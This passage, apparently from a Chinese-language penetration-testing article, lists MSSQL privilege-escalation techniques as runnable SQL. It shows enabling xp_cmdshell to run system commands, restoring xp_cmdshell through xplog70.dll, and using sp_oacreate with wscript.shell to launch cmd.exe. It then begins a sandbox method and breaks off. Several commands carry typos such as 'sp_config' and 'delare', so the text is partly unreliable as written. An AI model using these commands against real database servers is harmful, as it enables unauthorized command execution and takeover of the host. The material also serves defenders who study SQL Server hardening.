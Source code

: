 ```
启用:EXEC sp_configure 'show advanced options',1 ;Reconfigure;EXEC sp_configure 'xp_cmdshell',1;关闭;EXEC sp_configure 'show advanced options',1;reconfigure;exec sp_config 'xp_cmdshell',0;reconfigure;执行;exec master.dbo.xp_cmdshell '命令'
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9I422jEYTCueS4OtyicR3gs2lFfbJOPNS56ta0x6AEzxqHiaIPnAChhl0rGojFpkno2mx8j03eOcQg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



如果xp_cmdshell被删除了,可以上传xplog70.dll恢复

exec master.sys.sp_addextendeproc 'xp_cmdshell','c:\Program

Files\Microsoft SQL server\MSSQL\Binn\xplog70.dll'



2.使用sp_oacreate提权

主要用来调用OLE对象,利用OLE对象的run方法执行系统命令。

- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 

```
启用:EXEC sp_configure 'show advanced options' ,1;Reconfigure with override;EXEC sp_configure 'Ole Automation Procedures',1;Reconfigure with override;关闭:EXEC sp_configure 'show advanced options' ,1;Reconfigure with override;EXEC sp_configure 'Ole Automation Procedures',0;Reconfigure with override;执行:delare @shell int exec sp_oacreate 'wscript.shell',@shelloutput exec sp_oamethod @shell ,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\\1.exe'
```

3.使用SQL server沙盒提权

- 

```
参考资料:https://blog.51cto.com/11797152/2411770
```

- 

```
exec sp_configure 'show advanced options',1;reconfigure;
```

-- 不开启的话在执行xp_regwrite会提示让我们开启
